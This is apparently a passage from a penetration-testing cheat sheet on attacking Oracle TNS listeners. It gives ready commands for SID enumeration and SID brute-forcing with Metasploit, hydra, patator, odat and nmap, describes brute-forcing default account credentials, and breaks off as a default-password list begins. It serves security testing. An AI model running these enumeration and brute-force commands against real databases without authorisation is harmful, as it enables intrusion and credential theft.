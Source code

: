 The TNS listener could be vulnerable to MitM attacks. Check here how to check if the server is vulnerable and how to perform the attack (all versions up to version 12c are).
SID Enumeration
What is a SID?
The SID (Service Identifier) is essentially the database name, depending on the install you may have one or more default SIDs, or even a totally custom dba defined SID.
In some old versions (in 9 it works) you could ask for the SID and the database send it to you:
1
2
3
4
5
6
7
8
9
10
11
	tnscmd10g status-p 1521 -h <IP> #The SID are inside: SERVICE=(SERVICE_NAME=<SID_NAME>)

#msf1
msf> use auxiliary/scanner/oracle/sid_enum
msf> set rhost <IP>
msf> run
#msf2
msf> use auxiliary/admin/oracle/tnscmd
msf> set CMD (CONNECT_DATA=(COMMAND=STATUS))
msf> set rhost <IP>
msf> run #The SID are inside: SERVICE=(SERVICE_NAME=<SID_NAME>)

If you cant access this way to the SIDs you will need to bruteforce them:
SID Bruteforce
I have merged the nmap and MSF sid lists into this one (without duplicates):
sids-oracle.txt
1
2
3
4
5
	hydra -L /usr/share/metasploit-framework/data/wordlists/sid.txt -s 1521 <IP> oracle-sid
patator oracle_login host=<IP> sid=FILE0 0=sids-oracle.txt -x ignore:code=ORA-12505
./odat.py sidguesser -s $SERVER -d $SID --sids-file=./sids.txt
msf> use auxiliary/admin/oracle/sid_brute #This will use the list located at /usr/share/metasploit-framework/data/wordlists/sid.txt
nmap --script +oracle-sid-brute -p 1521 10.11.1.202 #This will use the list lcated at /usr/share/nmap/nselib/data/oracle-sids

In order to use oracle_login with patator you need to install:
1
	pip3 install cx_Oracle --upgrade

Targeting Accounts
Got SID? Excellent, now let’s move to the next task and extract the user account information. From this point, you can connect to the listener and brute-force credentials.
Metasploit scanner/oracle/oracle_login It has a built-in dictionary for the most popular default values of user account information presented as login:password. By the way, such default entries represent one of the most popular and serious security problems in Oracle.
Nmap can also help here with the script oracle-brute. Note that this script mixes the logins and passwords, that is, it tries each login against every password, and it takes quite a while!
Default Passwords
Below are some of the default passwords associated with Oracle:
1
2
3
4